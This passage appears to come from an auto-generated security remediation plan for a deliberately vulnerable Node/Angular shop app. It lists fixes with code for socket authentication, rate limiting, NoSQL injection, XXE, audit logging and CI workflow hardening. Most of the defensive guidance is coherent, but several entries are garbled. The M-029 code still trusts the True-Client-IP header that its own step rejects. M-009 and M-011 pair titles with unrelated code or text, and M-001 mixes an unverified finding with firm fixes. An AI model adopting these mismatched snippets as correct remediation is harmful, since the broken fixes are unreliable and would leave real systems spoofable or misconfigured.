**How:** Remove reliance on client-side JWT role checks for access control decisions. The Angular guard can be used as a UX convenience to redirect early, but must not be the sole gate. Ensure every admin-tier API endpoint (e.g., `GET /api/Users`, `DELETE /api/Feedbacks/:id`) enforces role verification server-side (verify JWT signature + `data.role === 'admin'` on the Express middleware layer). Add a server-side `/rest/user/whoami` or session-check call in the AdminGuard's `canActivate()` that validates the token server-side before granting route access.

1. Remove reliance on client-side JWT role checks for access control decisions. The Angular guard can be used as a UX convenience to redirect early, but must not be the sole gate.
2. Ensure every admin-tier API endpoint (e.g., `GET /api/Users`, `DELETE /api/Feedbacks/:id`) enforces role verification server-side (verify JWT signature + `data.role === 'admin'` on the Express middleware layer).
3. Add a server-side `/rest/user/whoami` or session-check call in the AdminGuard's `canActivate()` that validates the token server-side before granting route access.

**Reference:** CWE-306

---

<a id="m-028"></a>
#### M-028 — Require session token validation in Socket\.IO connection middleware before accepting any socket

**Addresses:**

- 🔴 [F-016](#f-016) — Unauthenticated WebSocket Channel (`registerWebsocketEvents.ts:24`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `lib/startup/registerWebsocketEvents.ts:24`

**How:** Add a Socket\.IO `io.use()` middleware that extracts and validates a session JWT or cookie before the connection is accepted: `io.use((socket, next) => { const token = socket.handshake.auth.token || socket.handshake.headers['authorization']; if (!verifyToken(token)) return next(new Error('unauthorized')); next(); });`. Pass the authenticated user identity (`socket.data.userId`) from the middleware into each event handler so handlers can verify that the acting user owns the relevant challenge state. Replace the hardcoded `cors: { origin: 'http://localhost:4200' }` with a runtime-configurable allowlist sourced from `config.get('server.corsOrigin')` so production deployments are not broken by the localhost literal.

1. Add a Socket\.IO `io.use()` middleware that extracts and validates a session JWT or cookie before the connection is accepted: `io.use((socket, next) => { const token = socket.handshake.auth.token || socket.handshake.headers['authorization']; if (!verifyToken(token)) return next(new Error('unauthorized')); next(); });`
2. Pass the authenticated user identity (`socket.data.userId`) from the middleware into each event handler so handlers can verify that the acting user owns the relevant challenge state.
3. Replace the hardcoded `cors: { origin: 'http://localhost:4200' }` with a runtime-configurable allowlist sourced from `config.get('server.corsOrigin')` so production deployments are not broken by the localhost literal.

```javascript
// In registerWebsocketEvents.ts
const io = new Server(server, { cors: { origin: config.get('server.corsOrigin') } })
io.use((socket, next) => {
  const token = socket.handshake.auth?.token
  try {
    socket.data.user = security.verify(token)  // throws on invalid/missing
    next()
  } catch {
    next(new Error('Authentication required'))
  }
})
```

**Reference:** CWE-306

---

<a id="m-029"></a>
#### M-029 — Encode output instead of bypassing the framework sanitizer

**Addresses:**

- 🟠 [F-017](#f-017) — Stored XSS (`routes/saveLoginIp.ts:18`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `routes/saveLoginIp.ts:18`

**How:** Regardless of challenge state, validate `lastLoginIp` is a valid IPv4 or IPv6 address before persisting: use `net.isIP(lastLoginIp)` (`Node.js` built-in) and reject or truncate any value that does not match. Do not use client-supplied headers (`True-Client-IP`, `X-Forwarded-For`) to record the login IP in security-sensitive fields; prefer `req.socket.remoteAddress` or `req.ip` (trust-proxy resolved). When rendering `lastLoginIp` in any UI, apply output encoding - treat it as untrusted data even if it passed format validation.

1. Regardless of challenge state, validate `lastLoginIp` is a valid IPv4 or IPv6 address before persisting: use `net.isIP(lastLoginIp)` (`Node.js` built-in) and reject or truncate any value that does not match.
2. Do not use client-supplied headers (`True-Client-IP`, `X-Forwarded-For`) to record the login IP in security-sensitive fields; prefer `req.socket.remoteAddress` or `req.ip` (trust-proxy resolved).
3. When rendering `lastLoginIp` in any UI, apply output encoding - treat it as untrusted data even if it passed format validation.

```javascript
// routes/saveLoginIp.ts — validate before DB write
import net from 'net'
const rawIp = req.headers['true-client-ip'] as string ?? req.socket.remoteAddress ?? ''
const safeIp = net.isIP(rawIp) ? rawIp : req.socket.remoteAddress ?? ''
await user?.update({ lastLoginIp: safeIp })
```

**Reference:** CWE-80

---

<a id="m-030"></a>
#### M-030 — Rate-limit and lock out repeated authentication attempts

**Addresses:**

- 🟠 [F-018](#f-018) — Rate Limit Bypass (`server.ts:346`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `server.ts:343`

**How:** Remove the custom `keyGenerator` from the `rateLimit()` call at `server.ts:343`–`347`, or change it to `({ ip }) => ip`. Express sets `req.ip` using the trusted proxy chain (`app.set('trust proxy', N)`) rather than the raw header. Configure `app.set('trust proxy', 1)` (or the correct hop count for the deployment's proxy topology) so that `req.ip` reflects the real client IP behind a single load balancer, but still cannot be spoofed from the internet. Add a rate limit on `POST /rest/user/login` as well (currently absent - see auth-007).

1. Remove the custom `keyGenerator` from the `rateLimit()` call at `server.ts:343`–`347`, or change it to `({ ip }) => ip`. Express sets `req.ip` using the trusted proxy chain (`app.set('trust proxy', N)`) rather than the raw header.
2. Configure `app.set('trust proxy', 1)` (or the correct hop count for the deployment's proxy topology) so that `req.ip` reflects the real client IP behind a single load balancer, but still cannot be spoofed from the internet.
3. Add a rate limit on `POST /rest/user/login` as well (currently absent - see auth-007).

```javascript
// server.ts — remove spoofable key generator
app.use('/rest/user/reset-password', rateLimit({
  windowMs: 5 * 60 * 1000,
  max: 10  // tighten to 10 attempts, not 100
  // no keyGenerator — defaults to req.ip
}))
```

**Reference:** CWE-307

---

<a id="m-031"></a>
#### M-031 — Use parameterized database queries

**Addresses:**

- 🔴 [F-019](#f-019) — NoSQL Injection (`routes/showProductReviews.ts:36`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `routes/showProductReviews.ts:36`

**How:** Replace `{ $where: 'this.product == ' + id }` with `{ product: Number(id) }` - MarsDB supports standard field equality filters that do not evaluate JavaScript. Remove the global `sleep` injection (lines 17-25) from production code; it exists solely for the challenge and creates a real DoS primitive. Add `Number.isInteger(Number(id))` guard before the query to reject non-numeric product IDs with HTTP 400.

1. Replace `{ $where: 'this.product == ' + id }` with `{ product: Number(id) }` - MarsDB supports standard field equality filters that do not evaluate JavaScript.
2. Remove the global `sleep` injection (lines 17-25) from production code; it exists solely for the challenge and creates a real DoS primitive.
3. Add `Number.isInteger(Number(id))` guard before the query to reject non-numeric product IDs with HTTP 400.

```javascript
// routes/showProductReviews.ts — safe version
const productId = parseInt(req.params.id, 10)
if (isNaN(productId)) { return res.status(400).json({ error: 'Invalid id' }) }
db.reviewsCollection.find({ product: productId }).then((reviews: Review[]) => { ... })
```

**Reference:** CWE-943

---

<a id="m-032"></a>
#### M-032 — Disable XML external entity (XXE) resolution

**Addresses:**

- 🟠 [F-020](#f-020) — XML External Entity Injection (`routes/fileUpload.ts:83`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `routes/fileUpload.ts:83`

**How:** Change the `parseXml` options to `{ noblanks: true, noent: false, nocdata: true }` to disable entity resolution. Alternatively switch to a parser that disables DTD processing entirely (e.g. the native `Node.js` DOMParser with entity processing off). Consider rejecting XML uploads entirely if the feature is deprecated (the code already returns 410).

1. Change the `parseXml` options to `{ noblanks: true, noent: false, nocdata: true }` to disable entity resolution.
2. Alternatively switch to a parser that disables DTD processing entirely (e.g. the native `Node.js` DOMParser with entity processing off).
3. Consider rejecting XML uploads entirely if the feature is deprecated (the code already returns 410).

```javascript
// routes/fileUpload.ts:83 — fixed
const xmlDoc = vm.runInContext(
  'libxml.parseXml(data, { noblanks: true, noent: false, nocdata: true })',
  sandbox, { timeout: 2000 })
```

**Reference:** CWE-611

---

<a id="m-033"></a>
#### M-033 — Add security audit logging

**Addresses:**

- 🟠 [F-021](#f-021) — Query Logging Disabled No Audit Trail for Data Mutations (`models/index.ts:39`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `models/index.ts:39`

**How:** Add Sequelize `afterCreate`, `afterUpdate`, `afterDestroy` hooks on `UserModel`, `BasketItemModel`, and `WalletModel` that emit a structured log entry (actor ID, model name, primary key, changed fields, timestamp) to a dedicated security log sink. Do NOT re-enable `logging: true` in production - raw SQL logs contain cleartext query parameters; use hook-level structured logging instead. Consider an append-only `AuditLog` Sequelize model (insert-only, no `deleteAt` / soft-delete) to capture mutations in the same database, or ship to an external log aggregator.

1. Add Sequelize `afterCreate`, `afterUpdate`, `afterDestroy` hooks on `UserModel`, `BasketItemModel`, and `WalletModel` that emit a structured log entry (actor ID, model name, primary key, changed fields, timestamp) to a dedicated security log sink.
2. Do NOT re-enable `logging: true` in production - raw SQL logs contain cleartext query parameters; use hook-level structured logging instead.
3. Consider an append-only `AuditLog` Sequelize model (insert-only, no `deleteAt` / soft-delete) to capture mutations in the same database, or ship to an external log aggregator.

```javascript
// models/user.ts — add after UserModelInit
User.addHook('afterUpdate', 'auditUserUpdate', (user) => {
  logger.info({ event: 'user.updated', userId: user.id, changed: Object.keys(user.changed() || {}), ts: new Date().toISOString() })
})
User.addHook('afterDestroy', 'auditUserDelete', (user) => {
  logger.info({ event: 'user.deleted', userId: user.id, ts: new Date().toISOString() })
})
```

**Reference:** CWE-778

---

<a id="m-034"></a>
#### M-034 — Add security audit logging

**Addresses:**

- 🟠 [F-022](#f-022) — Missing Structured Security Audit Log for Auth and Admin Events (`server.ts:338`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `server.ts:338`

**How:** Create a dedicated audit logger (e.g. using winston with a separate transport) that writes JSON events with fields: timestamp, actor (`userId`/email), action, resource, outcome, `sourceIp`. In `routes/login.ts`: emit audit events on login success and failure (with email but not password). In `lib/insecurity.ts` `isAuthorized()` rejection path: emit audit event with `userId` and requested path. Write audit events to a separate append-only log file (or external SIEM sink) distinct from the publicly-accessible access.log.

1. Create a dedicated audit logger (e.g. using winston with a separate transport) that writes JSON events with fields: timestamp, actor (`userId`/email), action, resource, outcome, `sourceIp`.
2. In `routes/login.ts`: emit audit events on login success and failure (with email but not password).
3. In `lib/insecurity.ts` `isAuthorized()` rejection path: emit audit event with `userId` and requested path.
4. Write audit events to a separate append-only log file (or external SIEM sink) distinct from the publicly-accessible access.log.

```javascript
// lib/audit.ts
import winston from 'winston'
export const auditLog = winston.createLogger({
  transports: [new winston.transports.File({ filename: 'logs/security-audit.log' })]
})
export const logAuth = (event: string, actor: string, ip: string, outcome: string) =>
  auditLog.info({ event, actor, ip, outcome, ts: new Date().toISOString() })
```

**Reference:** CWE-778

---

<a id="m-036"></a>
#### M-036 — Move cryptographic keys to a managed secret store

**Addresses:**

- 🔴 [F-029](#f-029) — Cryptographic Keys Served Unauthenticated (`server.ts:278`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `server.ts:278`

**How:** Add `security.isAuthorized()` (or the equivalent JWT validation middleware already used on admin routes) before `serveKeyFiles()` in `server.ts:278`. Remove the `/encryptionkeys` directory listing registration at `server.ts:277` - public directory browsing of cryptographic key material is never appropriate. Move `jwt.pub` and `premium.key` to a non-web-served directory (e.g., `secrets/`) accessible only via environment variable paths or `Node.js` `fs.readFile` calls within the application.

1. Add `security.isAuthorized()` (or the equivalent JWT validation middleware already used on admin routes) before `serveKeyFiles()` in `server.ts:278`.
2. Remove the `/encryptionkeys` directory listing registration at `server.ts:277` - public directory browsing of cryptographic key material is never appropriate.
3. Move `jwt.pub` and `premium.key` to a non-web-served directory (e.g., `secrets/`) accessible only via environment variable paths or `Node.js` `fs.readFile` calls within the application.

```javascript
// server.ts — add auth guard before key serving
app.use('/encryptionkeys/:file', security.isAuthorized(), serveKeyFiles())
// Remove directory browsing:
// app.use('/encryptionkeys', serveIndexMiddleware, serveIndex('encryptionkeys', ...))
```

**Reference:** CWE-321

---

<a id="m-037"></a>
#### M-037 — Restrict /support/logs to authenticated admin users and scrub sensitive query parameters from log lines

**Addresses:**

- 🟠 [F-030](#f-030) — Access Log Exposure (`server.ts:281`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `server.ts:281`

**How:** Add `security.isAuthorized()` and `security.isAccounting()` (or an admin role check) before the `/support/logs` route. Configure Morgan to use a custom token that strips or masks sensitive query parameters (e.g. `password`, `token`) from the URL before logging. Consider not serving raw log files via the application at all - use a separate log management system.

1. Add `security.isAuthorized()` and `security.isAccounting()` (or an admin role check) before the `/support/logs` route.
2. Configure Morgan to use a custom token that strips or masks sensitive query parameters (e.g. `password`, `token`) from the URL before logging.
3. Consider not serving raw log files via the application at all - use a separate log management system.

**Reference:** CWE-532

---

<a id="m-038"></a>
#### M-038 — Add security.isAuthorized middleware before /encryptionkeys routes

**Addresses:**

- 🟠 [F-031](#f-031) — Unauthenticated Encryption Key File Exposure (`server.ts:277`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `server.ts:277`

**How:** Prepend `security.isAuthorized()` to the encryptionkeys route: `app.use('/encryptionkeys', security.isAuthorized(), serveIndexMiddleware, serveIndex('encryptionkeys', ...))`. For the file-serving route: `app.use('/encryptionkeys/:file', security.isAuthorized(), serveKeyFiles())`. Consider removing public key from the encryptionkeys directory entirely and embedding it in the application config.

1. Prepend `security.isAuthorized()` to the encryptionkeys route: `app.use('/encryptionkeys', security.isAuthorized(), serveIndexMiddleware, serveIndex('encryptionkeys', ...))`.
2. For the file-serving route: `app.use('/encryptionkeys/:file', security.isAuthorized(), serveKeyFiles())`.
3. Consider removing public key from the encryptionkeys directory entirely and embedding it in the application config.

**Reference:** CWE-552

---

<a id="m-039"></a>
#### M-039 — Scope challenge solved broadcasts to per-user authenticated socket rooms rather than broadcasting to all connections

**Addresses:**

- 🟠 [F-032](#f-032) — CTF Flag Broadcast to Unauthenticated WebSocket (`lib/challengeUtils.ts:70`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `lib/challengeUtils.ts:70`

**How:** After implementing Socket\.IO connection authentication, join each authenticated socket to a per-user room (`socket.join('user:' + socket.data.user.id)`) on connection. Replace `io.emit('challenge solved', notification)` with `io.to('user:' + solvedByUserId).emit('challenge solved', notification)` so flags are only delivered to the user who solved the challenge. Remove the bulk re-play of all pending notifications to new sockets (lines 30-32 of `registerWebsocketEvents.ts`) or filter to only notifications belonging to the authenticated user's session.

1. After implementing Socket\.IO connection authentication, join each authenticated socket to a per-user room (`socket.join('user:' + socket.data.user.id)`) on connection.
2. Replace `io.emit('challenge solved', notification)` with `io.to('user:' + solvedByUserId).emit('challenge solved', notification)` so flags are only delivered to the user who solved the challenge.
3. Remove the bulk re-play of all pending notifications to new sockets (lines 30-32 of `registerWebsocketEvents.ts`) or filter to only notifications belonging to the authenticated user's session.

```javascript
// challengeUtils.ts — targeted emit
if (globalWithSocketIO.io) {
  globalWithSocketIO.io
    .to('user:' + challenge.userId)
    .emit('challenge solved', notification)
}
```

**Reference:** CWE-359

---

<a id="m-040"></a>
#### M-040 — Rate-limit and lock out repeated authentication attempts

**Addresses:**

- 🟠 [F-033](#f-033) — Missing Rate Limit on Login Endpoint (`server.ts:594`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `server.ts:594`

**How:** Add `rateLimit({ windowMs: 15 * 60 * 1000, max: 20 })` before `login()` in the route registration at `server.ts:594`, using `req.ip` (not a client header) as the key. Consider also implementing per-account lockout after N failed attempts (store attempt count in the session or a fast key-value store) to protect against distributed credential stuffing where each attacker IP stays under the IP-based threshold. Alert or log on 5+ consecutive failures for the same email to aid incident detection.

1. Add `rateLimit({ windowMs: 15 * 60 * 1000, max: 20 })` before `login()` in the route registration at `server.ts:594`, using `req.ip` (not a client header) as the key.
2. Consider also implementing per-account lockout after N failed attempts (store attempt count in the session or a fast key-value store) to protect against distributed credential stuffing where each attacker IP stays under the IP-based threshold.
3. Alert or log on 5+ consecutive failures for the same email to aid incident detection.

```javascript
// server.ts:594
app.post('/rest/user/login',
  rateLimit({ windowMs: 15 * 60 * 1000, max: 20 }),
  login()
)
```

**Reference:** CWE-307

---

<a id="m-041"></a>
#### M-041 — Remove global sleep injection and replace \$where with typed field filter

**Addresses:**

- 🟠 [F-034](#f-034) — Event Loop Blocking (`routes/showProductReviews.ts:17`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `routes/showProductReviews.ts:17`

**How:** Delete the `global.sleep` assignment at `routes/showProductReviews.ts:17-25` entirely - this is a deliberate challenge artifact that constitutes a real DoS primitive. Replace the `$where` JavaScript predicate with a typed equality filter `{ product: Number(id) }` (see data-layer-003 for the full fix pattern). If the `noSqlCommandChallenge` requires the sleep behavior for scoring, gate it behind a server-side challenge registry check that prevents execution when the challenge is already solved.

1. Delete the `global.sleep` assignment at `routes/showProductReviews.ts:17-25` entirely - this is a deliberate challenge artifact that constitutes a real DoS primitive.
2. Replace the `$where` JavaScript predicate with a typed equality filter `{ product: Number(id) }` (see data-layer-003 for the full fix pattern).
3. If the `noSqlCommandChallenge` requires the sleep behavior for scoring, gate it behind a server-side challenge registry check that prevents execution when the challenge is already solved.

**Reference:** CWE-400

---

<a id="m-042"></a>
#### M-042 — Enforce server-side authorization on every endpoint

**Addresses:**

- 🔴 [F-035](#f-035) — Sensitive Routes Registered Without Authentication Middleware (`server.ts:310`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `server.ts:310`

**How:** Add an explicit auth middleware (`isAuthorized()` / `passport.authenticate()` / `requireAuth`) to the route registration, or mark the route intentionally public via `app.get(...)` for read-only access only.

```typescript
// Add server-side role check on every admin route.
router.use('/admin/*', (req, res, next) => {
  if (req.user?.role !== 'admin') return res.status(403).end()
  next()
})
```

**Verification:** Hit `/admin/...` with a non-admin JWT and confirm 403 (not 200).

---

<a id="m-043"></a>
#### M-043 — Disable untrusted package install scripts

**Addresses:**

- 🟠 [F-036](#f-036) — Untrusted npm Install/Postinstall Scripts Enabled (`ci.yml:65`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `.github/workflows/ci.yml:65`

**How:** Add `--ignore-scripts` to all `npm install` invocations in CI jobs that do not already use it: `ci.yml` lines 65, 85, 125, 175, 211; `release.yml` line 42. Use `npm install --ignore-scripts` and separately run required build scripts explicitly with `npm run build`, `npm run compile`, etc. Generate and commit `package-lock.json` by running `npm install` locally and committing the lockfile. Switch CI install to `npm ci` (which reads the lockfile, ensuring reproducible installs without version float and without running scripts by default when combined with `--ignore-scripts`). Add `package-lock.json` to `.gitignore` exceptions if it is currently excluded, and configure Dependabot for `package-ecosystem: npm` to keep the lockfile updated via automated PRs. Add a CI step that fails the build if `package-lock.json` is absent or differs from `package.json`: `npm ci --dry-run`.

1. Add `--ignore-scripts` to all `npm install` invocations in CI jobs that do not already use it: `ci.yml` lines 65, 85, 125, 175, 211; `release.yml` line 42. Use `npm install --ignore-scripts` and separately run required build scripts explicitly with `npm run build`, `npm run compile`, etc.
2. Generate and commit `package-lock.json` by running `npm install` locally and committing the lockfile. Switch CI install to `npm ci` (which reads the lockfile, ensuring reproducible installs without version float and without running scripts by default when combined with `--ignore-scripts`).
3. Add `package-lock.json` to `.gitignore` exceptions if it is currently excluded, and configure Dependabot for `package-ecosystem: npm` to keep the lockfile updated via automated PRs.
4. Add a CI step that fails the build if `package-lock.json` is absent or differs from `package.json`: `npm ci --dry-run`.

```javascript
# ci.yml — replace bare npm install:
      - name: "Install application"
        run: npm ci --ignore-scripts
      - name: "Build application"
        run: npm run build  # explicit, not via postinstall
```

**Reference:** CWE-506

---

<a id="m-044"></a>
#### M-044 — Add explicit least-privilege permissions block to all GitHub Actions workflows

**Addresses:**

- 🟠 [F-037](#f-037) — Missing Workflow-Level Permissions Block (`ci.yml:1`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `.github/workflows/ci.yml:1`

**How:** Add `permissions: {}` (deny-all) or `permissions: contents: read` at the top level of each workflow that currently has no permissions block: `ci.yml`, `release.yml`, `lint-fixer.yml`, `frontend-bundle-analysis.yml`, `stale.yml`, `zap_scan.yml`, `update-challenges-ebook.yml`, `update-challenges-www.yml`, `update-news-www.yml`, `rebase.yml`. For each job that legitimately needs elevated permissions (e.g., the `docker` job in `ci.yml` needs `packages: write`; the `coverage-report` job needs `contents: read`), add a job-level `permissions:` block scoped to the minimum required. For `release.yml` `package` job, add `permissions: contents: write` at the job level only (for the `action-gh-release` step) and `contents: read` at the workflow level. Enable the GitHub repository setting 'Restrict GitHub Actions to be able to create PRs' and set the default token permission to `read-only`.

1. Add `permissions: {}` (deny-all) or `permissions: contents: read` at the top level of each workflow that currently has no permissions block: `ci.yml`, `release.yml`, `lint-fixer.yml`, `frontend-bundle-analysis.yml`, `stale.yml`, `zap_scan.yml`, `update-challenges-ebook.yml`, `update-challenges-www.yml`, `update-news-www.yml`, `rebase.yml`.
2. For each job that legitimately needs elevated permissions (e.g., the `docker` job in `ci.yml` needs `packages: write`; the `coverage-report` job needs `contents: read`), add a job-level `permissions:` block scoped to the minimum required.
3. For `release.yml` `package` job, add `permissions: contents: write` at the job level only (for the `action-gh-release` step) and `contents: read` at the workflow level.
4. Enable the GitHub repository setting 'Restrict GitHub Actions to be able to create PRs' and set the default token permission to `read-only`.

```javascript
# ci.yml — add at top level after `env:`:
permissions:
  contents: read

# Then per job that needs more:
jobs:
  docker:
    permissions:
      contents: read
      packages: write
      id-token: write   # for OIDC if used
```

**Reference:** CWE-1357

---

<a id="m-045"></a>
#### M-045 — Add explicit guard against checkout of PR head code

**Addresses:**

- 🟠 [F-038](#f-038) — Pull_request_target with ORG_ADMIN_TOKEN (`pr-compliance.yml:4`)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `.github/workflows/pr-compliance.yml:4`

**How:** Add a comment block at the top of `pr-compliance.yml` documenting the security constraint: 'SECURITY: Never add actions/checkout with ref: github.event.pull_request.head.sha or run code from the PR in this workflow - pull_request_target gives fork PRs access to secrets.'. Move the `ORG_ADMIN_TOKEN` usage to a separate workflow triggered via `workflow_run` (not `pull_request_target`) that runs only after the compliant `pull_request` (non-target) workflow completes successfully. This ensures the admin token is never in the same execution context as external fork code. Add a CodeQL or Semgrep rule to detect `pull_request_target` combined with `checkout` using `head.sha` ref - enforce via the existing CodeQL workflow. Rotate `ORG_ADMIN_TOKEN` to have the minimum required scope (just `org:block`) rather than broad org admin permissions.

1. Add a comment block at the top of `pr-compliance.yml` documenting the security constraint: 'SECURITY: Never add actions/checkout with ref: github.event.pull_request.head.sha or run code from the PR in this workflow - pull_request_target gives fork PRs access to secrets.'
2. Move the `ORG_ADMIN_TOKEN` usage to a separate workflow triggered via `workflow_run` (not `pull_request_target`) that runs only after the compliant `pull_request` (non-target) workflow completes successfully. This ensures the admin token is never in the same execution context as external fork code.
3. Add a CodeQL or Semgrep rule to detect `pull_request_target` combined with `checkout` using `head.sha` ref - enforce via the existing CodeQL workflow.
4. Rotate `ORG_ADMIN_TOKEN` to have the minimum required scope (just `org:block`) rather than broad org admin permissions.

```javascript
# Safe pattern: separate workflow for admin actions
# admin-actions.yml (triggered by workflow_run, never by pull_request_target):
on:
  workflow_run:
    workflows: ["PR Compliance Check"]
    types: [completed]

permissions:
  contents: read  # ORG_ADMIN_TOKEN used internally, not GITHUB_TOKEN
```

**Reference:** CWE-1357

---

<a id="m-046"></a>
#### M-046 — Add ownership check and reject non-string _id values

**Addresses:**

- 🔴 [F-039](#f-039) — NoSQL Mass-Update (`routes/updateProductReviews.ts:17`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `routes/updateProductReviews.ts:17`

**How:** Before calling `db.reviewsCollection.update()`, fetch the review by `_id` and verify `review.author === user.data.email`; return HTTP 403 if the check fails. Validate that `req.body.id` is a non-empty string (not an object) with `typeof req.body.id !== 'string'` guard, rejecting operator-injection attempts. Remove `{ multi: true }` from the update call - a single review update should never affect multiple documents.

1. Before calling `db.reviewsCollection.update()`, fetch the review by `_id` and verify `review.author === user.data.email`; return HTTP 403 if the check fails.
2. Validate that `req.body.id` is a non-empty string (not an object) with `typeof req.body.id !== 'string'` guard, rejecting operator-injection attempts.
3. Remove `{ multi: true }` from the update call - a single review update should never affect multiple documents.

```javascript
// routes/updateProductReviews.ts — safe version
if (typeof req.body.id !== 'string') return res.status(400).json({ error: 'Invalid id' })
const review = await db.reviewsCollection.findOne({ _id: req.body.id })
if (!review || review.author !== user?.data?.email) return res.status(403).json({ error: 'Forbidden' })
await db.reviewsCollection.update({ _id: req.body.id }, { $set: { message: req.body.message } })
```

**Reference:** CWE-915

---

<a id="m-047"></a>
#### M-047 — Restore security.isAuthorized guard on PUT /api/Products/:id

**Addresses:**

- 🟠 [F-040](#f-040) — Product Modification Without Auth Guard (`server.ts:369`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `server.ts:369`

**How:** Uncomment `app.put('/api/Products/:id', security.isAuthorized())` at `server.ts:369`. Additionally restrict product modification to admin/accounting role by adding `security.isAccounting()` or an admin role check. Add an automated regression test asserting that unauthenticated `PUT /api/Products/1` returns 401.

1. Uncomment `app.put('/api/Products/:id', security.isAuthorized())` at `server.ts:369`.
2. Additionally restrict product modification to admin/accounting role by adding `security.isAccounting()` or an admin role check.
3. Add an automated regression test asserting that unauthenticated `PUT /api/Products/1` returns 401.

```javascript
// server.ts:369 — fixed
app.put('/api/Products/:id', security.isAuthorized(), security.isAccounting())
```

**Reference:** CWE-284

---

### P3 — Next Quarter

<a id="m-001"></a>
#### M-001 — Manual review: verify Mass Assignment Role Injection via User Registration

**Addresses:**

- 🔴 [F-013](#f-013) — Mass Assignment Role Injection (`server.ts:419`)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `server.ts:419`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`server.ts:419`) and decide whether to keep, downgrade, or remove this finding.

1. In the finale-rest resource configuration for User, add a `create.write.before` hook that deletes `req.body.role` and `req.body.isActive` before the record is created.
2. Alternatively, use a Sequelize `beforeCreate` hook on UserModel to reset `role` to `'customer'` for new registrations.
3. Add an integration test asserting that `POST /api/Users` with `role: admin` creates a customer-role account.

```javascript
// server.ts — after finale.resource() for User
resource.create.write.before((req, res, context) => {
  delete req.body.role
  delete req.body.isActive
  return context.continue
})
```

**Reference:** CWE-915

---

<a id="m-008"></a>
#### M-008 — Drop unnecessary privileges in build and runtime

**Addresses:**

- 🟡 [F-042](#f-042) — Runs as root — Dockerfile:1

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `test/smoke/Dockerfile:1`

**How:** Add USER <non-root-uid> - Containers running as root expand container-escape blast radius.

---

<a id="m-009"></a>
#### M-009 — Sign and verify release artifacts

**Addresses:**

- 🟡 [F-043](#f-043) — No container image signing in CI — :1

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `.github/workflows/:1`

**How:** Add cosign signing step to release workflow; or use actions/attest-build-provenance - Unsigned container images cannot be verified for provenance - any registry intermediary could substitute them.

```typescript
// Always verify on the public key; never trust the unsigned header.
const decoded = jwt.verify(token, publicKey, { algorithms: ['RS256'] })
```

**Verification:** Tamper one byte in a valid token's payload and confirm `jwt.verify()` throws.

---

<a id="m-010"></a>
#### M-010 — Apply least-privilege permissions

**Addresses:**

- 🟡 [F-044](#f-044) — GitHub Actions GITHUB_TOKEN not minimized to contents:read (`lock.yml:1`)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `.github/workflows/lock.yml:1`

**How:** Add `permissions: { contents: read }` at root; per-job elevate to `contents: write` only where needed - `contents: read` at workflow root forces per-job opt-in for write scopes - minimal privilege by default.

---

<a id="m-011"></a>
#### M-011 — Pin the container base image to an immutable digest

**Addresses:**

- 🟡 [F-045](#f-045) — Dependabot does not cover npm ecosystem — (missing):1

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `(missing):1`

**How:** Add npm ecosystem entry to .`github/dependabot.yml` - npm ecosystem must be tracked for timely dependency security updates.

```bash
# Pin and audit dependencies; fail CI on known vulns.
npm audit --omit=dev --audit-level=high
# Upgrade unmaintained packages in package.json, then:
npm install && npm test
```

**Verification:** `npm audit --omit=dev --audit-level=high` exits 0.

---

<a id="m-027"></a>
#### M-027 — Replace knowledge-based security questions with email-based OTP password reset

**Addresses:**

- 🟠 [F-015](#f-015) — Insecure Password Recovery (`routes/resetPassword.ts:41`)

**Priority:** P3 - Next Quarter · **Effort:** High · **File:** `routes/resetPassword.ts:41`

**How:** Remove the security-question password reset flow from `routes/resetPassword.ts` and replace with an email-delivered one-time token: generate a cryptographically random 256-bit token, store a hash with a 15-minute TTL, and send the plaintext token to the registered email address. On receipt, validate the token against the stored hash and expire it immediately after use (single-use). If security questions must remain for legacy reasons, enforce account lockout after 5 failed attempts (per account, not per IP) and move to server-side IP detection rather than trusting `X-Forwarded-For`.

1. Remove the security-question password reset flow from `routes/resetPassword.ts` and replace with an email-delivered one-time token: generate a cryptographically random 256-bit token, store a hash with a 15-minute TTL, and send the plaintext token to the registered email address.
2. On receipt, validate the token against the stored hash and expire it immediately after use (single-use).
3. If security questions must remain for legacy reasons, enforce account lockout after 5 failed attempts (per account, not per IP) and move to server-side IP detection rather than trusting `X-Forwarded-For`.

**Reference:** CWE-640

---

<a id="m-035"></a>
#### M-035 — Store session tokens in HttpOnly, Secure cookies

**Addresses:**

- 🟠 [F-023](#f-023) — JWT Bearer Token in localStorage (`login.component.ts:101`)

**Priority:** P3 - Next Quarter · **Effort:** High · **File:** `frontend/src/app/login/login.component.ts:101`

**How:** Remove `localStorage.setItem('token', ...)` from `login.component.ts` and `oauth.component.ts`. Stop reading from `localStorage` in `request.interceptor.ts`. Have the Express backend set the JWT as an HttpOnly Secure SameSite=Strict cookie (`res.cookie('token', jwt, { httpOnly: true, secure: true, sameSite: 'strict' })`) on successful login. The browser will include the cookie automatically without exposing it to JavaScript. Remove the Authorization header injection from `request.interceptor.ts` - rely on the browser to send the HttpOnly cookie. The backend must read `req.cookies.token` instead of `req.headers.authorization`. Clear the cookie server-side on logout (`res.clearCookie('token')`) rather than `localStorage.removeItem('token')`.

